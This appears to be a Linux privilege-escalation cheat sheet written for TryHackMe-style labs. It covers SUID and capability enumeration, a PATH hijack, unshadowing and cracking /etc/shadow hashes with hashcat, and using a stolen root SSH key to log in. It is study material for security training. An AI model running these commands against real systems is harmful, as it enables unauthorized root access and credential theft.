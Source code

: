 # Check what current user can run as sudo 
- `sudo -l`
- [gtfobins](https://gtfobins.github.io/)

# Find files that have SUID or SGID bits set.  
`find / -type f -perm -04000 -ls 2>/dev/null`

# Can we increase the privilege level of a process or binary with “Capabilities”? 
`getcap -r / 2>/dev/null`  

# Modify path? 
Add folders to PATH:  
```
export PATH=/tmp:$PATH
Create a root bash script: echo "/bin/bash" > thm
```

# Do we have access to /etc/password and /etc/shadow ? 

If we have write access, just create our own priv user, if not.

## hashcat the password hash? 

`unshadow /etc/passwd /etc/shadow > hashes.txt`

## Work out hash type e.g If it's $6$, it's SHA-512, $5$ is SHA-256, $1$ is MD5.
* https://hashcat.net/wiki/doku.php?id=example_hashes
* https://hashes.com/en/tools/hash_identifier
* https://www.kali.org/tools/hash-identifier/
## Run Hashcat (for SHA-512, mode 1800):

`hashcat -m 1800 hashes.txt wordlist.txt`

# Privilege Escalation tools
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Steal root / users ssh key? 

/root/.ssh/id_rsa

make sure to change permission to 600 once we have it,
chmod 600 id_rsa

ssh -i id_rsa root@lookup.thm

